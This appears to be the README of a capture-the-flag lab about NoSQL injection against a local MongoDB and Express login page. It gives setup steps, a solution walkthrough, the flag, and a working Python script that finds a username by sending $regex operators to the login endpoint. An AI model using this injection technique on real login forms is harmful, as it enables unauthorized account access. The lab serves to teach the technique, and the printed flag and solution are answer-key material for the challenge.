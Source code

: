 ## Nosqli Challenge
## Run the below commands to get Started after cloning the repo
```
docker-compose up
```
Server will start listening on port 4444.

## Todo
- Fix the content-type via UI.

## Solution
1. On visiting the home page (http://localhost:4444/), user gets a sign-in page and a hint that the site is powered by MongoDB and express.
2. Sign-in Page is vulnerable to Nosqli using $regex for pattern matching.
3. username: enumerating the username using the above vuln.
4. Password: Same as username.
4. Login with the creds to get the flag.

Below is the exploit for enumerating the username.

```
import requests
import string

charset = string.ascii_lowercase

def test_email(email):
    #email = email.replace('.', '\\.')
    print("trying this..."+email)
    content = requests.post('http://localhost:4444/admin/login', json={'username': {'$regex': '^' + email}, 'password': 'asdf'}).content
    #print(content)
    #print(b'Access Denied.Please try again.' in content)
    return b'Access Denied.Please try again.' in content

def get(prefix=''):
    # check if a prefix is a full email in the database
    if test_email(prefix + "$"):
        print("Found Username: "+prefix)
        exit(0)

    for c in charset:
        if test_email(prefix + c):

            get(prefix + c)

get()
#test_email("admin1$")

```

## Ref:
- https://p3n7a90n.github.io/blogs/nosqli/

## Flag
Flag{txSw0A9r68q5IkeFtGO5_nosqli_is_fun}